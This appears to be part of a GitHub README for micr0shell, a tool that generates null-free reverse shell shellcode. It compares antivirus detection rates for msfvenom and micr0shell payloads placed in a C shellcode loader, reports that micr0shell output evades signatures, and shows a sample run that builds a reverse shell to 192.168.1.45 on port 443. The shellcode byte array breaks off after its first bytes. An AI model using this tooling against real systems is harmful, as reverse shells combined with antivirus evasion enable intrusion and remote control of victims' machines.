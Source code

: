 ![image](/screenshot/msf_include_00.jpg)

![image](/screenshot/msf_null_free.jpg)

![image](/screenshot/micr0shell.jpg)

By `8/13/2023`, raw shellcode bin file generated by micr0shell is not signatured.

### Simple Shellcode Loader in C
Use msfvenom and micr0shell to generate shellcode byte array, and include them in a simple shellcode runner written in C, respectively. There are 2 shellcodes generated from msfvenom, one includes 0x00, and the other is Null-Free. The comparison is as follows:

![image](/screenshot/loader_msf_include_00.jpg)

![image](/screenshot/loader_msf.jpg)

![image](/screenshot/loader_micr0.jpg)

By `8/23/2023`, the shellcode loader includes the shellcode generated by micr0shell has much less detection. It is worth mentioning that the simple shellcode loader itself is signatured, even if the shellcode is harmless.



## Screenshot

![image](/screenshot/test.jpg)

```cmd
─# python3 micr0shell.py --ip 192.168.1.45 --port 443 --type cmd --language c --variable shellcode --execution false --save True --output buf.bin

███╗░░░███╗██╗░█████╗░██████╗░░█████╗░  ░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
████╗░████║██║██╔══██╗██╔══██╗██╔══██╗  ██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██╔████╔██║██║██║░░╚═╝██████╔╝██║░░██║  ╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║╚██╔╝██║██║██║░░██╗██╔══██╗██║░░██║  ░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
██║░╚═╝░██║██║╚█████╔╝██║░░██║╚█████╔╝  ██████╔╝██║░░██║███████╗███████╗███████╗
╚═╝░░░░░╚═╝╚═╝░╚════╝░╚═╝░░╚═╝░╚════╝░  ╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

Author: Senzee
Github Repository: https://github.com/senzee1984/micr0_shell
Description: Dynamically generate PIC Null-Free Reverse Shell Shellcode
Attention: In rare cases (.255 and .0 co-exist), generated shellcode could contain NULL bytes, E.G. when IP is 192.168.0.255


[+]Shellcode Settings:
******** IP Address: 192.168.1.45
******** Listening Port: 443
******** Language of desired shellcode runner: c
******** Shellcode array variable name: shellcode
******** Shell: cmd
******** Shellcode Execution: false
******** Save Shellcode to file: true


[+]Payload size: 476 bytes

[+]Shellcode format for C

unsigned char shellcode[]={
0x48,0x31,0xd2,0x65,0x48,0x8b,0x42,0x60,0x48,0x8b,0x70,0x18,0x48,0x8b,0x76,0x30,0x4c,0x8b,0x0e,0x4d,
```